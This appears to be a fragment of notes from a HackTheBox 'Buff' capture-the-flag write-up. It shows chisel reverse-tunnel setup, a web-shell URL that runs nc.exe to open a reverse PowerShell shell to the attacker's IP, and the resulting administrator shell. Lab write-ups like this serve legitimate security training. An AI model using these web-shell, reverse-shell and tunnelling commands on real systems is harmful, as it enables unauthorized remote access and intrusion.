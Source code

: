 plink?

* [https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html](https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html)
* [https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

or chisel? 

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel) 
* [https://www.puckiestyle.nl/pivot-with-chisel/](https://www.puckiestyle.nl/pivot-with-chisel/) 
* [https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

Chisel looked like an overall better tool, and one that I wanted to add to my toolkit.

```text
PS C:\Users\shaun\Downloads> ./chi.exe client 10.10.15.82:8099 R:8888:127.0.0.1:8888
./chi.exe client 10.10.15.82:8099 R:8888:127.0.0.1:8888
2020/08/23 23:43:11 client: Connecting to ws://10.10.15.82:8099
2020/08/23 23:43:12 client: Fingerprint 4c:09:ee:d3:88:28:01:8e:ef:aa:e3:36:db:ef:a1:80
2020/08/23 23:43:13 client: Connected (Latency 53.5461ms)
```

http://10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe -e powershell.exe 10.10.14.220 12346

Had to manually upload both nc.exe and chisel.exe...used burp repeater

```text
┌──(zweilos㉿kali)-[~/htb/buff]
└─$ chisel server -p 8099 --reverse                                        
2020/08/23 18:27:12 server: Reverse tunnelling enabled
2020/08/23 18:27:12 server: Fingerprint 4c:09:ee:d3:88:28:01:8e:ef:aa:e3:36:db:ef:a1:80
2020/08/23 18:27:12 server: Listening on 0.0.0.0:8099...
2020/08/23 18:37:42 server: proxy#1:R:0.0.0.0:8888=>127.0.0.1:8888: Listening
```

R:8000:127.0.0.1:7890

### Getting a shell

```text
┌──(zweilos㉿kali)-[~]
└─$ nc -lvnp 12345                                                                                  1 ⨯
listening on [any] 12345 ...
connect to [10.10.18.82] from (UNKNOWN) [10.10.10.198] 49702
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:/users/administrator/desktop
cd c:/users/administrator/desktop

c:\Users\Administrator\Desktop>whoami /all
whoami /all

USER INFORMATION
----------------

User Name          SID                                          
================== =============================================
buff\administrator S-1-5-21-2277156429-3381729605-2640630771-500


GROUP INFORMATION
-----------------

```
